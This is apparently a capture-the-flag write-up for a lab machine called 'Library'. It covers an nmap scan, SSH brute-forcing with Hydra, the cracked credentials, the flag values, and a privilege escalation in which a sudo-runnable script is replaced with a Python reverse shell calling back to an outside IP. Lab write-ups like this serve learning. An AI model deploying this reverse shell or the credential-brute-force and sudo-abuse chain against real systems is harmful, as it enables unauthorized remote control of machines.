

# Library

```bash
export ip=10.10.153.254
```
## Nmap
```bash
Starting Nmap 7.60 ( https://nmap.org ) at 2020-07-08 16:22 +0430
Nmap scan report for 10.10.153.254
Host is up (0.11s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 c4:2f:c3:47:67:06:32:04:ef:92:91:8e:05:87:d5:dc (RSA)
|   256 68:92:13:ec:94:79:dc:bb:77:02:da:99:bf:b6:9d:b0 (ECDSA)
|_  256 43:e8:24:fc:d8:b8:d3:aa:c2:48:08:97:51:dc:5b:7d (EdDSA)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
| http-robots.txt: 1 disallowed entry
|_/
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Welcome to  Blog - Library Machine
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## Potential Username
```
meliodas 
```

## Robots.txt
```
User-agent: rockyou 
Disallow: /
```

## Hydra
```bash
[22][ssh] host: 10.10.153.254   login: meliodas   password: iloveyou1
```

## SSh
```bash
Username: meliodas
Password: iloveyou1
```

## Flag User
```bash
6d488cbb3f111d135722c33cb635f4ec
```

## Privilage Escalation
* By having root privilage to run /melisodas/back.py, we can modify to have a reverse shell.
* First, rename it via mv bak.py to bak2.py
* Second, create a file and name it bak.py and paste the below code in.
* Run it via ```sudo /usr/bin/python3 /home/meliodas/bak.py```

```python
import socket
import subprocess
import os

s = socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(("10.9.54.225", 9999))
os.dup2(s.fileno(),0)
os.dup2(s.fileno(),1)
os.dup2(s.fileno(),2)
p = subprocess.call(["/bin/sh","-i"])
```

## Root Flag
```
e8c8c6c256c35515d1d344ee0488c617
```

